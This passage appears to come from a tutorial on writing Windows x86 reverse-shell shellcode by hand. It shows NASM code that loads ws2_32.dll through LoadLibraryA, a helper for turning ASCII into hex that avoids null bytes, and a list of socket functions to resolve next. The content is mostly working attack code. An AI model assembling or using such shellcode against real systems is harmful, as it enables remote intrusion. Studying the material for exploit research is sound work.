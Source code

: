 ```terminal_session
C:\Users\IEUser\Documents>a2h.py LoadLibraryA
[u'41797261', u'7262694c', u'64616f4c']
```
So we push those onto the stack. Save a pointer to the string with `push esp` and then we `push ebx` which is the address of the library that `LoadLibraryA` is exported from, `kernel32.dll`. 

Now, the address of `LoadLibraryA` is stored in EAX. 

We can use this function to load the library `ws2_32.dll` into memory. This library holds all of the socket functions we need to establish a reverse shell. 

### Loading `ws2_32.dll` 
```nasm
; use LoadLibraryA to load the ws2_32.dll
push 0x61616c6c
sub word [esp + 0x2], 0x6161
push 0x642e3233
push 0x5f327377
push esp
call eax
```

We have to push the string `ws2_32.dll` onto the stack, but since it doesn't break up nicely into 4 byte chunks, we can add `aa` to it and use the python script again. 
```terminal_session
C:\Users\IEUser\Documents>a2h.py ws2_32.dllaa
[u'61616c6c', u'642e3233', u'5f327377']
```

So we push the first `DWORD` and then subtract off the `aa` value just like @NytroRST showed us. Then we push the rest, push a stack pointer, and then call `LoadLibraryA`. I won't be showing the ascii to hex conversions anymore but this is the gist of it. The only other variation you'll see is me adding a single `a` and subtracting from the `DWORD` value at the `esp` offset by `0x61`, this is to avoid nulls that would be induced by subtracting from the `WORD` value as we did when subtracting `0x6161`. 

Now is a good time to do a register check, here is what our registers look like at this point. 
```
; EAX = ws2_32.dll address
; ECX = ???
; EDX = some sort of offset
; EBX = kernel32 base address
; ESP = pointer to string "ws2_32.dll'
; ESI = some address
; EDI = GetProcAddress address
```

### Locating Our Function Addresses
Now it's time to go hunting the functions we need: 
+ `WSAStartup`
+ `WSASocketA`
+ `connect`
+ `CreateProcessA`
+ `ExitProcess`
